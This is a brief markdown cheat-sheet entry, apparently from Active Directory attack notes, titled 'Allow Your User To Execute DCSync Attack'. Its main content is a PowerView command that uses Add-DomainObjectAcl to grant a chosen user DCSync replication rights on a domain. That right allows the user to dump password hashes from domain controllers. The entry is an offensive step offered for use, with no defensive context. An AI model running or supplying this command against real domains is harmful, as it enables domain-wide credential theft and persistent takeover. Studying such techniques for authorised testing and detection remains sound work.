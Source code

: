 # Modify Domain Settings

## Allow Your User To Execute DCSync Attack

Allow your user to execute DCSync attack.

```
. C:\AD\Tools\PowerView.ps1
PS C:\Windows\system32> Add-DomainObjectAcl -TargetIdentity 'DC=test,DC=test.corp,DC=local' -PrincipalIdentity test -Rights DCSync -PrincipalDomain test.corp.local -TargetDomain test.local -Verbose
```

